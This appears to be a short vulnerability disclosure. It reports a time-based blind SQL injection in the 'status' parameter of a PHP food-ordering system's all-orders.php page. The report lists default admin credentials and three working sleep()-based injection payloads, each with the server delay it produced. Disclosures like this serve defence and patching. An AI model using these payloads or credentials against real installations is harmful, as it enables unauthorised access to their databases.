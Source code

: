 # Food Ordering Management System v1.0 by oretnom23 has SQL injection
BUG_Author: YorkLee

Login account: admin/admin123 (Super Admin account)

vendors:https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

Vulnerability File: /foms/all-orders.php

Vulnerability location: /foms/all-orders.php?status=Cancelled%20by%20Customer  // Leak place ---> status

status exists delayed injection vulnerability

Payload1: ?status=Cancelled%20by%20Customer%27%2b(select*from(select(sleep(20)))a)%2b%27

select(sleep(20)) The server response time is 20 seconds

![image](https://github.com/YorkLee2022/pic/blob/main/TwentySeconds.png)

Payload2: ?status=Cancelled%20by%20Customer%27%2b(select*from(select(sleep(15)))a)%2b%27

select(sleep(15)) The server response time is 15 seconds

![image](https://github.com/YorkLee2022/pic/blob/main/FifteenSeconds.png)

Payload3: ?status=Cancelled%20by%20Customer%27%2b(select*from(select(sleep(10)))a)%2b%27

select(sleep(10)) The server response time is 10 seconds

![image](https://github.com/YorkLee2022/pic/blob/main/TenSeconds.png)








